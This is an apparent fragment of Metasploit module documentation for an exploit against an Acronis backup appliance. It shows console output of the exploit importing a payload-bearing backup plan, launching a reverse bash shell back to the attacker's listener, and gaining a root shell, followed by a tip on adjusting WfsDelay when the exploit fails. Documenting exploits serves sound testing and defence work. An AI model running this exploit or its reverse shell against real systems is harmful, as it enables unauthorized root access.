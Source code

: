 ```msf
[*] Import backup plan with payload for target with hostId: D287E868-EDBB-4FE9-85A9-F928AA10EE5D.
[*] Executing Unix/Linux Command with payload cmd/unix/reverse_bash
[+] Backup plan is successful removed.
[*] Command shell session 21 opened (192.168.201.8:4444 -> 192.168.201.6:35722) at 2024-10-23 12:20:05 +0000

uname -a
Linux AcronisAppliance-FCD94 3.10.0-957.27.2.el7.x86_64 #1 SMP Mon Jul 29 17:46:05 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/var/lib/Acronis/mms
```

## Limitations
In some occasions, the exploit might fail.
Adjust the `WfsDelay` advanced option might help.
